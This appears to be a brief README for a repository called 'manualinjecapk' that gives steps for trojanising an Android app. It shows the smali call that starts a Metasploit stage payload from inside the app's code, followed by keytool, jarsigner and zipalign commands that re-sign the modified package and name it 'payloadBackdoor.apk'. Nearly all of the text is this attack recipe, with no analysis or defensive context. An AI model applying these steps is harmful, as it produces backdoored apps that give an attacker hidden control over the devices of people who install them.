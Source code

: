 # manualinjecapk
# manualinjecapk


## invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V




------------------------------------------------------------------------------------------------------------
# keytool -genkey -v -keystore code5.keystore -alias aliasnyapenting -keyalg RSA -keysize 2048 -validity 10000

# jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore code5.keystore payload.apk aliasnyapenting

# jarsigner -verify -verbose -certs payload.apk

# zipalign -v 4 payload.apk payloadBackdoor.apk
-------------------------------------------------------------------------------------------------------------
